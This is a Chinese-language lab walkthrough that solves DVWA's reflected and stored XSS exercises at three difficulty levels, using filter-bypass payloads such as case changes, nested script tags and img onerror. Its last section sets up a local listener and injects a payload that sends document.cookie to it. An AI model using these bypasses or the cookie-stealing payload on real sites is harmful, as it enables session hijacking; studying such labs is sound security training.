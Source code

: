 ## 1.完成dvwa靶场中针对反射型XSS的低中高难度的注入。

### 低难度

![image-20221111142115847](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142115847.png)

#### payload

```
1<script>alert("hi")</script>
```

![image-20221111142041352](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142041352.png)

### 中难度

![image-20221111142106867](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142106867.png)

对<script>字符串做了校检

![image-20221111142304049](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142304049.png)



#### payload

```
1<Script>alert("hi")</script>
```

![image-20221111142157587](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142157587.png)

```
1<scr<script>ipt>alert("hi")</script>
```

![image-20221111142213639](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142213639.png)

### 高难度

![image-20221111142335213](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142335213.png)

查看源码使用正则表达式对script进行了过滤

![image-20221111143016640](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111143016640.png)

#### payload

使用img+onerror进行注入

```
1<img src=1 onerror=alert("hi")>
```

![image-20221111143241688](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111143241688.png)

## 2.完成dvwa靶场中针对存储型XSS的低中高难度的注入。

### 低难度

![image-20221111142115847](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142115847.png)

#### payload

```
1<script>alert("hi")</script>
```

![image-20221111143640661](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111143640661.png)

![image-20221111143652390](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111143652390.png)

### 中难度

![image-20221111142106867](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142106867.png)

阅读源码发现对messge进行了去除了html符号，对name替换了<script>为空

![image-20221111145140612](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145140612.png)

![image-20221111145205611](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145205611.png)

#### payload

使用name属性进行xss注入，需要先F12修改name框输入的最大长度

![image-20221111145304087](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145304087.png)

```
1<s<script>cript>alert("hi")</script>
```

![image-20221111145327999](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145327999.png)

注入成功

![image-20221111145421953](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145421953.png)

### 高难度

![image-20221111142335213](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111142335213.png)

阅读源码发现对messge进行了去除了html符号，对name进行了正则替换

![image-20221111145552206](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145552206.png)

#### payload

使用name属性进行img注入，需要先F12修改name框输入的最大长度

![image-20221111145730187](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145730187.png)

```
1<img src=1 onerror=alert("hi")>
```

![image-20221111145753840](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145753840.png)

注入成功

![image-20221111145858578](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111145858578.png)



## 3.利用XSS漏洞获取cookie实验

### 打开接收端

```
python3 -m http.server 1111
```

### 修改输入长度

![image-20221111152745214](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111152745214.png)

### payload

```
<script>document.write('<img src="http://127.0.0.1:1111/'+document.cookie+'"/>')</script>
```

![image-20221111152808325](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111152808325.png)

### 注入成功

![image-20221111152827733](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111152827733.png)

### 接收端收到cookie

![image-20221111152859274](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221111152859274.png)